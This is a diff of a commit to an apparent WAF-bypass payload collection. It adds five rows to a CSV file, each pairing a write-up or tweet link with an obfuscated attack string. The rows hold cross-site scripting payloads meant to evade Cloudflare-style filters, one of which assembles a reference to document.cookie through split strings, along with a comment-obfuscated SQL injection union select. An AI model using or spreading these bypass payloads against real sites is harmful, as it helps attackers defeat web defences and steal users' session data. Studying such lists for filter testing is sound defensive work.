

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; rows hold the shown columns only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added new Payloads

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
+row 474: https://medium.com/@youghourtaghannei/cloudflare-bypass-and-exploit-your-xss-e720b7333305 | javas%09cript:ghi=%27)%3E%27 | you=%27(top%5B%22docum%22%2B%22ent%22%5D.cookie%27;HTMLElement%5B%27inne%27%2B%27rHTML%27%5D=%27%3CSvg/OnLoad=alert%27%2Brob%2Beco;// | xss
+row 475: https://vulners.com/github/GHSA-8FV7-WQ38-F5C9?utm_source=rss&utm_medium=rss&utm_campaign=rss | &lt;script&gt; | xss
+row 476: https://www.youtube.com/watch?v=LZqTeVuaIL4 | null /*!12345union*/ select 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13
+row 477: https://twitter.com/Cyber_Berkkut/status/1691944550200119713 | &gt;&lt;Svg Only=1 OnLoad=confirm(atob(Q2xvdWRmbGFyZSBYU1MgQG1fa2VsZXBjZQ=="))&gt; | xss
+row 478: https://fares7elsadek.medium.com/my-first-bug-how-i-was-able-to-bypass-the-waf-and-uncover-a-reflected-xss-e0534b6f05e4 | <=script>=alert("hacked")<=/scirpt>= | xss
```
